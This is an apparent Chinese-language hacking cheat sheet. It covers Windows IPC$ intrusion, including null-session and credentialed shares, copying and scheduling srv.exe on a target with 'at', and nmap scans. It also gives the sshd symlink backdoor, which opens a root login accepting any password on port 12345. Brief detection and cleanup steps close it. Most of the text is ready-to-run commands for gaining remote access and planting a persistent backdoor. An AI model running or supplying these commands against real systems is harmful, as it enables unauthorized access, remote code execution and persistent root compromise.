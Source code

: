 ### IPC入侵
```
net share 查看本地开启的共享 
net share ipc$ 开启ipc$共享 
net use \\ip\ipc$ "" /user:"" 	建立IPC空链接 
net use \\ip\ipc$ "密码" /user:"用户名" 	建立IPC非空链接 
net use h: \\ip\c$ "密码" /user:"用户名" 	直接登陆后映射对方C：到本地为H: 
net use \\ip\ipc$ /del 	删除IPC链接 
net use h: /del 	删除映射对方到本地的为H:的映射 
net time \127.0.0.25         #查时间
at \\ip time 程序名(或一个命令) /r 	在某时间运行对方某程序并重新启动计算机
at \\127.0.0.25 10:50 srv.exe  #用at命令在0点50分启动srv.exe（注意这里设置的时间要比主机时间快）
at \\127.0.0.25 10:50 "echo 5 > c:\t.txt" 在远程计算机上建立文本文件t.txt； 
copy srv.exe \\hacden-pc\c$    #复制srv.exe到目标c盘上去 
```

### nmap命令
```
查询在线主机
nmap -sn 192.168.56.0/24

端口和服务
nmap -sS -sV -T5 -A -p- 192.168.0.109

```

### sshd软链接后门
```
1、服务端执行
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oport=12345
ln -sf /usr/sbin/sshd /tmp/chsh;/tmp/chsh -oport=12345
ln -sf /usr/sbin/sshd /tmp/chfn;/tmp/chfn -oport=12345

2、客户端执行
ssh root@x.x.x.x -p 12345

#输入任意密码就可以root用户权限登陆了，如果root用户被禁止登陆时，可以利用其他存在的用户身份登陆，比如：ubuntu

检测
1、查看可疑端口
netstat -antlp
2、查看可执行文件
ls -al /tmp/su
清除
1、禁止PAM认证
vim /etc/ssh/sshd_config
UsePAM no
2、重载
/etc/init.d/sshd reload

```
